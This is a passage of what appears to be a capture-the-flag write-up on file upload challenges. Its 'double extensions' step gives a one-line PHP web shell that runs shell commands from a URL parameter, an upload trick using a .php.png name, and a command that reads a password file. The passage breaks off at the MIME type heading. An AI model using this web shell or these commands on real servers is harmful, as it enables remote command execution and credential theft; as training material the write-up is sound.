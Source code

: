 ![](<../../.gitbook/assets/image (10) (2).png>)

### 13.File upload - Double extensions

```
<?php echo shell_exec($_GET['cmd']); ?>
```

set file.php.png and send to the server

![](<../../.gitbook/assets/image (16) (3).png>)

```
?cmd=cd;cat .passwd
```

### 14.File upload - MIME type
